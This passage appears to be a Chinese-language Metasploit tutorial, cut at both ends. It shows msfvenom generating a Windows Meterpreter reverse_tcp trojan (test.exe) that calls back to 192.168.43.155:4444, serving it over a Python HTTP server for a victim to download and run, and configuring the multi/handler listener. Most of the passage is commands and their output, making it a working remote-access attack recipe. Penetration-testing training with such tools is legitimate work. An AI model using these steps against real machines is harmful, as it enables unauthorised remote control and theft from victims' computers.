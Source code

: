 ```shell
     -k, --keep 保留 --template 行为并将有效负载作为新线程注入
     -v, --var-name <值> 指定用于某些输出格式的自定义变量名称
     -t, --timeout <秒> 从 STDIN 读取负载时等待的秒数（默认 30，0 禁用）
     -h, --help 显示此消息
```

我们可以通过上面的提示来生成一个最简单的木马

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.43.155 LPORT=4444 > test.exe`

```shell
[neko@NekoArch ~]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.43.155 LPORT=4444 -f exe -o test.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: test.exe
```

这样我们就有了一个最基础的的木马，当他被运行时他会往192.168.43.155:4444这个地址发送一个 meterpretershell。

我们可以在本地开一个简单的http服务器让被攻击设备访问下载木马运行。

```shell
[neko@NekoArch ~]$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

同时在msfconsole新建一个监听器来接收shell，一般使用exploit/multi/handler模块

`search handler`

搜索

`use 30`

跳转到模块

```shell
msf6 > use 30
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > 
```

一般情况下默认的payload是linux的shell，我们可以通过options来查看详细信息

```shell
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

```